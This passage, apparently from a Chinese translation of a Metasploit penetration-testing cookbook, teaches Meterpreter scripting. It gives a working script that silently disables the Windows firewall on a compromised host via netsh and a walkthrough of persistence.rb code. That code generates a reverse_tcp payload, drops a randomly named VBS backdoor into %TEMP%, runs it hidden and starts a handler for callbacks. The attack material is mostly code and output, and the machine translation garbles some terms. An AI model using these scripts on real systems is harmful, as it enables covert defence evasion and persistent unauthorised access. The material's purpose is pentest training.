## 怎么做。。。

1.  Type the following lines of code in the text editor. Before moving on to the explanation section, give a thorough look at the script and try to figure out what each line means. The script is easy to catch.

    ```
    # Author: Abhinav Singh
    # Windows Firewall De-Activator
    #Option/parameter Parsing
    opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ]
    )
    opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    print_line "Meterpreter Script for disabling the Default windows Firelwall"
    print_line "Let's hope it works"
    print_line(opts.usage)
    raise Rex::Script::Completed
    end
    }
    # OS validation and command execution
    unsupported if client.platform !~ /win32|win64/i
    end
    begin
    print_status("disabling the default firewall")
    cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
    ```

    输入代码后，将其另存为 `/pentest/exploits/framework3/scripts/meterpreter`下的 `myscript.rb`。

2.  要执行此脚本，我们需要一个 MeterMeter 会话。Ruby 脚本可以使用 `run`命令执行。但是，在使用脚本之前，请确保您在目标计算机上具有系统权限。

    ```
    meterpreter > getsystem
    ...got system (via technique 4).
    meterpreter > run myscript.rb
    [*] disabling the default firewall
    meterpreter > 
    ```

答对 了成功执行脚本将以静默方式禁用默认防火墙。命令在后台执行，因此目标用户仍然不知道该命令。现在让我们详细了解脚本。

## 它是如何工作的。。。

让我们分析脚本的每一部分。

```
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default Windows Firewall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
} 
```

这些代码行只不过是我们可以随脚本一起传递的选项。在此脚本中，我们唯一可用的选项是显示脚本使用消息的 `-h`参数。您可以将这段代码保存为模板，以便在脚本中创建选项。您将遇到几个可以直接在您自己的脚本中使用的代码片段。

该脚本首先创建一个 hash（opts），其中包括 Rex 库，它是 Ruby 扩展库的缩写形式。唯一的键是 `-h`。用法值设置为“false”，这意味着这是脚本的可选参数。接下来的几行代码与脚本提供的选项匹配，并跳转到特定情况下，使用 `print_line()`显示消息。在我们的案例中，我们只使用了一个选项（`-h`。

```
unsupported if client.platform !~ /win32|win64/i
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5)
end 
```

脚本的这一部分是特定于操作的。它从验证客户端操作系统开始。然后使用 MeterMeter mixin `cmd_exec()`，它可以执行隐藏和通道化的命令。要执行的命令是 `netsh advfirewall set AllProfiles state off`。mixin 在客户端计算机上通过命令提示符在上下文中调用此命令，其成功执行将禁用 windows 防火墙。

您可以通过添加更多功能和尝试不同的可能性来使用脚本。你做的实验越多，你就会学得越好。

这是一个关于如何构建 MeterMeter 脚本的简短演示。在下一个配方中，我们将查看一个高级 MeterMeter 脚本，并详细了解它。

## 还有更多。。。

让我们将讨论扩展到重用代码以实现更快、更高效的渗透测试。

### 代码重用

代码重用是构建自己的脚本的一种有效技术。您可以找到一些现成的函数，例如创建多处理器、设置参数检查、添加有效负载。您可以在代码中直接使用它们，并利用其功能。请记住，了解 MeterMeter 脚本的最佳方法是查看内置脚本。

# 分析现有的 MeterMeter 脚本

现在我们已经学习了如何构建自己的脚本，让我们继续分析执行一些高级任务的现有脚本。一旦能够完全读取现有脚本，就可以根据需要从中实现功能。代码重用是提高代码优化效率的有效技术。

## 怎么做。。。

要查看现有脚本，请浏览至 `pentest/exploits/framework3/scripts/meterpreter`。

您可以在此文件夹中找到所有可用的 MeterMeter 脚本。我们将分析有助于在目标用户上设置后门的 `persistence.rb`脚本。我们在上一章中讨论了此脚本的用法。在这里，我们将了解这个脚本是如何工作的。

## 它是如何工作的。。。

让我们逐一分析代码的每个部分。

```
# Default parameters for payload
rhost = Rex::Socket.source_address("1.2.3.4")
rport = 4444
delay = 5
install = false
autoconn = false
serv = false
altexe = nil
target_dir = nil
payload_type = "windows/meterpreter/reverse_tcp"
script = nil
script_on_target = nil 
```

代码从声明脚本中使用的变量开始。您可以看到一些常见变量，例如我们在整个开发过程中一直使用的 `rhost, rport, payload_type`。

```
@exec_opts = Rex::Parser::Arguments.new(
"-h" => [ false, "This help menu"],
"-r" => [ true, "The IP of the system running Metasploit listening for the connect back"],
"-p" => [ true, "The port on the remote host where Metasploit is listening"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-X" => [ false, "Automatically start the agent when the system boots"],
"-U" => [ false, "Automatically start the agent when the User logs on"],
"-S" => [ false, "Automatically start the agent on boot as a service (with SYSTEM privileges)"],
"-A" => [ false, "Automatically start a matching multi/handler to connect to the agent"],
"-L" => [ true, "Location in target host where to write payload to, if none \%TEMP\% will be used."],
"-T" => [ true, "Alternate executable template to use"],
"-P" => [ true, "Payload to use, default is windows/meterpreter/reverse_tcp."]
)
meter_type = client.platform 
```

脚本的下一部分包括随脚本一起传递所需的不同参数（标志）。具有 `true`值的参数是强制性标志，其值必须由渗透测试仪通过。具有 `false`值的参数是可选的。

```
# Usage Message Function
#-------------------------------------------------------------------------------
def usage
print_line "Meterpreter Script for creating a persistent backdoor on a target host."
print_line(@exec_opts.usage)
raise Rex::Script::Completed
end
# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
print_error("#{meter} version of Meterpreter is not supported with this Script!")
raise Rex::Script::Completed
end 
```

脚本的下一部分包括函数声明。前两个函数通常在所有 MeterMeter 脚本中都可用。usage 函数用于显示脚本的介绍性消息。它包含关于脚本使用的简短描述。 `wrong_meter_version()`用于验证脚本是否支持 MeterMeter 版本。一些脚本不支持旧版本的 MeterMeter，因此验证可能会有所帮助。

```
# Function for Creating the Payload
#-------------------------------------------------------------------------------
def create_payload(payload_type,lhost,lport)
print_status("Creating Payload=#{payload_type} LHOST=#{lhost} LPORT=#{lport}")
payload = payload_type
pay = client.framework.payloads.create(payload)
pay.datastore['LHOST'] = lhost
pay.datastore['LPORT'] = lport
return pay.generate
end 
```

下一个函数是关于创建有效负载的。如果要创建有效负载（代码重用的能力），可以在脚本中直接使用此函数。函数 `create_payload()`占用两个值，即 `payload_type`和 `lport`。如果您还记得变量声明部分，那么这两个变量已经用一些默认值初始化。

`pay = client.framework.payloads.create(payload)`调用允许我们从 Metasploit 框架创建有效负载。

在这个片段中需要注意的一点是 `pay.datastore['LHOST'] = lhost`和 `pay.datastore['LPORT'] = lport`。数据存储只是一组值的散列，模块或框架本身可以使用这些值来引用程序员或用户控制的值。

```
# Function for Creating persistent script
#-------------------------------------------------------------------------------
def create_script(delay,altexe,raw)
if altexe
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay, :template => altexe})
else
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay})
end
print_status("Persistent agent script is #{vbs.length} bytes long")
return vbs
end 
```

下一个函数用于创建持久脚本。根据有效负载和随脚本传递的其他参数值创建脚本。

```
# Function for creating log folder and returning log path
#-------------------------------------------------------------------------------
def log_file(log_path = nil)
#Get hostname
host = @client.sys.config.sysinfo["Computer"]
# Create Filename info to be appended to downloaded files
filenameinfo = "_" + ::Time.now.strftime("%Y%m%d.%M%S")
# Create a directory for the logs
if log_path
logs = ::File.join(log_path, 'logs', 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
else
logs = ::File.join(Msf::Config.log_directory, 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
end
# Create the log directory
::FileUtils.mkdir_p(logs)
#logfile name
logfile = logs + ::File::Separator + Rex::FileUtils.clean_path(host + filenameinfo) + ".rc"
return logfile
end 
```

下一个函数用于为脚本创建日志目录。 `host = @client.sys.config.sysinfo["Computer"]`调用提取受害目标的系统信息。目录和文件名是使用 Rex:：FileUtils 库创建的，该库负责执行文件和目录操作。

```
# Function for writing script to target host
#-------------------------------------------------------------------------------
def write_script_to_target(target_dir,vbs)
if target_dir
tempdir = target_dir
else
tempdir = @client.fs.file.expand_path("%TEMP%")
end
tempvbs = tempdir + "\\" + Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"
fd = @client.fs.file.new(tempvbs, "wb")
fd.write(vbs)
fd.close
print_good("Persistent Script written to #{tempvbs}")
file_local_write(@clean_up_rc, "rm #{tempvbs}\n")
return tempvbs
end 
```

此函数开始将文件写入磁盘。它将各种后门文件保存在前面函数中创建的文件夹和目录中。 `Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"`调用为要在临时目录中创建的文件名生成随机文本。 `fd.write()`调用将文件写入磁盘。

```
# Function for setting multi handler for autocon
#-------------------------------------------------------------------------------
def set_handler(selected_payload,rhost,rport)
print_status("Starting connection handler at port #{rport} for #{selected_payload}")
mul = client.framework.exploits.create("multi/handler")
mul.datastore['WORKSPACE'] = @client.workspace
mul.datastore['PAYLOAD'] = selected_payload
mul.datastore['LHOST'] = rhost
mul.datastore['LPORT'] = rport
mul.datastore['EXITFUNC'] = 'process'
mul.datastore['ExitOnSession'] = false
mul.exploit_simple(
'Payload' => mul.datastore['PAYLOAD'],
'RunAsJob' => true
)
print_good("Multi/Handler started!")
end 
```

此函数创建一个多处理器，以连接回攻击系统。这也是一个通用函数，如果您希望通过设置多处理程序来实现自动回接功能，则可以在脚本中使用该函数。

```
# Function to execute script on target and return the PID of the process
#-------------------------------------------------------------------------------
def targets_exec(script_on_target)
print_status("Executing script #{script_on_target}")
proc = session.sys.process.execute("cscript \"#{script_on_target}\"", nil, {'Hidden' => true})
print_good("Agent executed with PID #{proc.pid}")
file_local_write(@clean_up_rc, "kill #{proc.pid}\n")
return proc.pid
end 
```

此函数负责在目标计算机上执行脚本。持久性脚本在目标计算机上创建 vbs 脚本，因此必须执行这些脚本才能打开连接。 `Targets_exec()`函数解决了这个问题。如果要在目标机器上执行脚本，此函数也可以在您自己的脚本中用作常规函数。 `session.sys.process.execute()`调用负责执行脚本， `proc.pid`返回创建的后门进程的进程 ID。

代码的其余部分是自解释的，其中调用了这些函数，创建了清晰的脚本，并实现了选项检查。这个方法可能会让您清楚地知道，当我们执行 MeterMeter 脚本时，后台会发生什么。从笔测试人员的角度来看，能够根据工作场景读取和修改代码是非常重要的。这就是开源框架的魅力所在。您可以根据需要进行修改，并且可以通过直接分析可用的源代码来学习。